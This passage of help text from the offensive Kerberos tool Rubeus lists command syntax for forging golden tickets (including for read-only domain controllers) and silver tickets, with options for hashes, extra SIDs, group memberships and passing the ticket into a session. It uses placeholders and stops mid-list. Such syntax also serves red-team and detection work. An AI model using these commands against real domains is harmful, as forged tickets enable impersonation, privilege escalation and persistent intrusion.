 ```
    Forge a golden ticket, setting values explicitly:
        Rubeus.exe golden </des:HASH | /rc4:HASH | /aes128:HASH | /aes256:HASH> </user:USERNAME> </domain:DOMAIN> </sid:DOMAIN_SID> [/dc:DOMAIN_CONTROLLER] [/netbios:NETBIOS_DOMAIN] [/dispalyname:PAC_FULL_NAME] [/badpwdcount:INTEGER] [/flags:TICKET_FLAGS] [/uac:UAC_FLAGS] [/groups:GROUP_IDS] [/pgid:PRIMARY_GID] [/homedir:HOMEDIR] [/homedrive:HOMEDRIVE] [/id:USER_ID] [/logofftime:LOGOFF_TIMESTAMP] [/lastlogon:LOGON_TIMESTAMP] [/logoncount:INTEGER] [/passlastset:PASSWORD_CHANGE_TIMESTAMP] [/maxpassage:RELATIVE_TO_PASSLASTSET] [/minpassage:RELATIVE_TO_PASSLASTSET] [/profilepath:PROFILE_PATH] [/scriptpath:LOGON_SCRIPT_PATH] [/sids:EXTRA_SIDS] [[/resourcegroupsid:RESOURCEGROUPS_SID] [/resourcegroups:GROUP_IDS]] [/authtime:AUTH_TIMESTAMP] [/starttime:Start_TIMESTAMP] [/endtime:RELATIVE_TO_STARTTIME] [/renewtill:RELATIVE_TO_STARTTIME] [/rangeend:RELATIVE_TO_STARTTIME] [/rangeinterval:RELATIVE_INTERVAL] [/oldpac] [/extendedupndns] [/printcmd] [outfile:FILENAME] [/ptt]

    Forge a golden ticket for a read only domain controller (for Key List Requests):
        Rubeus.exe golden </rodcNumber:RODC_NUM> </des:HASH | /rc4:HASH | /aes128:HASH | /aes256:HASH> </user:USERNAME> </domain:DOMAIN> </sid:DOMAIN_SID> [/dc:DOMAIN_CONTROLLER] [/netbios:NETBIOS_DOMAIN] [/dispalyname:PAC_FULL_NAME] [/badpwdcount:INTEGER] [/flags:TICKET_FLAGS] [/uac:UAC_FLAGS] [/groups:GROUP_IDS] [/pgid:PRIMARY_GID] [/homedir:HOMEDIR] [/homedrive:HOMEDRIVE] [/id:USER_ID] [/logofftime:LOGOFF_TIMESTAMP] [/lastlogon:LOGON_TIMESTAMP] [/logoncount:INTEGER] [/passlastset:PASSWORD_CHANGE_TIMESTAMP] [/maxpassage:RELATIVE_TO_PASSLASTSET] [/minpassage:RELATIVE_TO_PASSLASTSET] [/profilepath:PROFILE_PATH] [/scriptpath:LOGON_SCRIPT_PATH] [/sids:EXTRA_SIDS] [[/resourcegroupsid:RESOURCEGROUPS_SID] [/resourcegroups:GROUP_IDS]] [/authtime:AUTH_TIMESTAMP] [/starttime:Start_TIMESTAMP] [/endtime:RELATIVE_TO_STARTTIME] [/renewtill:RELATIVE_TO_STARTTIME] [/rangeend:RELATIVE_TO_STARTTIME] [/rangeinterval:RELATIVE_INTERVAL] [/oldpac] [/extendedupndns] [/printcmd] [outfile:FILENAME] [/ptt]

    Forge a silver ticket using LDAP to gather the relevent information:
        Rubeus.exe silver </des:HASH | /rc4:HASH | /aes128:HASH | /aes256:HASH> </user:USERNAME> </service:SPN> /ldap [/extendedupndns] [/nofullpacsig] [/printcmd] [outfile:FILENAME] [/ptt]

    Forge a silver ticket using LDAP to gather the relevent information, using the KRBTGT key to calculate the KDCChecksum and TicketChecksum:
        Rubeus.exe silver </des:HASH | /rc4:HASH | /aes128:HASH | /aes256:HASH> </user:USERNAME> </service:SPN> /ldap </krbkey:HASH> [/krbenctype:DES|RC4|AES128|AES256] [/extendedupndns] [/nofullpacsig] [/printcmd] [outfile:FILENAME] [/ptt]

    Forge a silver ticket using LDAP to gather the relevent information but explicitly overriding some values:
        Rubeus.exe silver </des:HASH | /rc4:HASH | /aes128:HASH | /aes256:HASH> </user:USERNAME> </service:SPN> /ldap [/dc:DOMAIN_CONTROLLER] [/domain:DOMAIN] [/netbios:NETBIOS_DOMAIN] [/sid:DOMAIN_SID] [/dispalyname:PAC_FULL_NAME] [/badpwdcount:INTEGER] [/flags:TICKET_FLAGS] [/uac:UAC_FLAGS] [/groups:GROUP_IDS] [/pgid:PRIMARY_GID] [/homedir:HOMEDIR] [/homedrive:HOMEDRIVE] [/id:USER_ID] [/logofftime:LOGOFF_TIMESTAMP] [/lastlogon:LOGON_TIMESTAMP] [/logoncount:INTEGER] [/passlastset:PASSWORD_CHANGE_TIMESTAMP] [/maxpassage:RELATIVE_TO_PASSLASTSET] [/minpassage:RELATIVE_TO_PASSLASTSET] [/profilepath:PROFILE_PATH] [/scriptpath:LOGON_SCRIPT_PATH] [/sids:EXTRA_SIDS] [[/resourcegroupsid:RESOURCEGROUPS_SID] [/resourcegroups:GROUP_IDS]] [/authtime:AUTH_TIMESTAMP] [/starttime:Start_TIMESTAMP] [/endtime:RELATIVE_TO_STARTTIME] [/renewtill:RELATIVE_TO_STARTTIME] [/rangeend:RELATIVE_TO_STARTTIME] [/rangeinterval:RELATIVE_INTERVAL] [/authdata] [/extendedupndns] [/nofullpacsig] [/printcmd] [outfile:FILENAME] [/ptt]

    Forge a silver ticket using LDAP to gather the relevent information and including an S4UDelegationInfo PAC section:
        Rubeus.exe silver </des:HASH | /rc4:HASH | /aes128:HASH | /aes256:HASH> </user:USERNAME> </service:SPN> /ldap [/s4uproxytarget:TARGETSPN] [/s4utransitedservices:SPN1,SPN2,...] [/printcmd] [outfile:FILENAME] [/ptt]

    Forge a silver ticket using LDAP to gather the relevent information and setting a different cname and crealm:
        Rubeus.exe silver </des:HASH | /rc4:HASH | /aes128:HASH | /aes256:HASH> </user:USERNAME> </service:SPN> /ldap [/cname:CLIENTNAME] [/crealm:CLIENTDOMAIN] [/printcmd] [outfile:FILENAME] [/ptt]

    Forge a silver ticket, setting values explicitly:
```